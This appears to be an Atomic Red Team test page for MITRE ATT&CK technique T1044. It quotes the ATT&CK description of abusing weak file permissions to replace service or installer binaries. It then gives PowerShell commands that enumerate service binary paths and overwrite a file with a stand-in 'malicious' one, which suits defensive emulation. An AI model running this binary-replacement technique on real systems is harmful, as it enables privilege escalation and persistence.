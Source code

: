 # T1044 - File System Permissions Weakness

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1044)

<blockquote>Processes may automatically execute specific binaries as part of their functionality or to perform other actions. If the permissions on the file system directory containing a target binary, or permissions on the binary itself, are improperly set, then the target binary may be overwritten with another binary using user-level permissions and executed by the original process. If the original process and thread are running under a higher permissions level, then the replaced binary will also execute under higher-level permissions, which could include SYSTEM.

Adversaries may use this technique to replace legitimate binaries with malicious ones as a means of executing code at a
higher permissions level. If the executing process is set to run at a specific time or during a certain event (e.g.,
system bootup) then this technique can also be used for persistence.

### Services

Manipulation of Windows service binaries is one variation of this technique. Adversaries may replace a legitimate
service executable with their own executable to gain persistence and/or privilege escalation to the account context the
service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService). Once the service is
started, either directly by the user (if appropriate access is available) or through some other means, such as a system
restart if the service starts on bootup, the replaced executable will run instead of the original service executable.

### Executable Installers

Another variation of this technique can be performed by taking advantage of a weakness that is common in executable,
self-extracting installers. During the installation process, it is common for installers to use a subdirectory within
the <code>%TEMP%</code> directory to unpack binaries such as DLLs, EXEs, or other payloads. When installers create
subdirectories and files they often do not set appropriate permissions to restrict write access, which allows for
execution of untrusted code placed in the subdirectories or overwriting of binaries used in the installation process.
This behavior is related to and may take advantage
of [DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1038). Some installers may also require elevated
privileges that will result in privilege escalation when executing adversary controlled code. This behavior is related
to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088). Several examples of this weakness in
existing common installers have been reported to software vendors. (Citation: Mozilla Firefox Installer DLL Hijack) (
Citation: Seclists Kanthak 7zip Installer)</blockquote>

## Atomic Tests

- [Atomic Test #1 - File System Permissions Weakness](#atomic-test-1---file-system-permissions-weakness)

<br/>

## Atomic Test #1 - File System Permissions Weakness

This test to show checking file system permissions weakness and which can lead to privilege escalation by replacing
malicious file. Example; check weak file permission and then replace.
powershell -c "Get-WmiObject win32_service | select PathName"   (check service file location) and
copy /Y C:\temp\payload.exe C:\ProgramData\folder\Update\weakpermissionfile.exe   ( replace weak permission file with
malicious file )

Upon execution, open the weak permission file at %temp%\T1044_weak_permission_file.txt and verify that it's contents
read "T1044 Malicious file". To verify
the weak file permissions, open File Explorer to%temp%\T1044_weak_permission_file.exe then open Properties and Security
to view the Full Control permission is enabled.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| weak_permission_file | check weak files permission | path | $env:TEMP&#92;T1044_weak_permission_file.txt|
| malicious_file | File to replace weak permission file with | path | $env:TEMP&#92;T1044&#92;T1044_malicious_file.txt|

#### Attack Commands: Run with `powershell`!

```powershell
Get-WmiObject win32_service | select PathName
Copy-Item #{malicious_file} -Destination #{weak_permission_file} -Force
```

#### Cleanup Commands:

```powershell
Remove-Item #{weak_permission_file} -Force -ErrorAction Ignore
Remove-Item -Recurse (Split-Path #{malicious_file}) -Force -ErrorAction Ignore
```

#### Dependencies:  Run with `powershell`!

##### Description: A file must exist on disk at specified location (#{weak_permission_file})

##### Check Prereq Commands:

```powershell
if (Test-Path #{weak_permission_file}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item #{weak_permission_file} -Force | Out-Null
Set-Content -Path #{weak_permission_file} -Value "T1044 Weak permission file"
```

##### Description: A file to replace the original weak_permission_file. In an attack this would be the malicious file gaining extra privileges

##### Check Prereq Commands:

```powershell
if (Test-Path #{malicious_file}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory -Path $env:TEMP\T1044\ -Force | Out-Null
New-Item #{malicious_file} -Force | Out-Null
Set-Content -Path #{malicious_file} -Value "T1044 Malicious file"
```

<br/>
